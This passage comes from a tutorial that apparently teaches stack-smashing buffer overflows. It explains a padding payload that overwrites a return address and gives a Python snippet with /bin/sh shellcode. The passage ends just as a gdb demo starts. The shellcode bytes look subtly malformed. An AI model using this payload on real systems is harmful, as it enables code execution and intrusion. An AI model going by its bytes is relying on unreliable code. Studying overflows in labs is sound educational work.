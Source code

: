 - `A` × 64 → fills `buffer`
    
- `A` × 8 → skips saved RBP
    
- Overwrites return address with `0xdeadbeef`
    

The program will **crash or jump** depending on the memory layout.

---

## 🐚 Step 3: Inject Shellcode (Optional)

Advanced: You can add shellcode to spawn a shell (`/bin/sh`) and point return address to it.

python

CopyEdit

`shellcode = (     "\x48\x31\xc0\x50\x48\x89\xe2\x48\x89"     "\xc6\x48\x8d\x3d\x04\x00\x00\x00\x04"     "\x3b\x0f\x05/bin/sh\x00" )  payload = shellcode.ljust(72, 'A') + "\x00\x10\x60\x00"`

> You'd need to adjust the return address (`0x00601000` here) based on where the shellcode lives in memory.

---

## 🚨 Danger Reminder

Stack smashing is a **security exploit**. Use these examples **only for educational or ethical hacking purposes in controlled environments**. Never try this on unauthorized systems.

## Demo
Perfect — let’s go through a **step-by-step demo** of a **stack smashing exploit** using `gdb`. This will simulate how an attacker could inject and execute code.

---

## 🧪 GOAL

We will:

1. Compile a vulnerable C program
    
2. Use crafted input to **overwrite the return address**
    
3. See the CPU **jump to our fake address**
    
4. (Optionally) simulate shellcode execution
    

---

## 1️⃣ Vulnerable Code: `stack_smash.c`

c
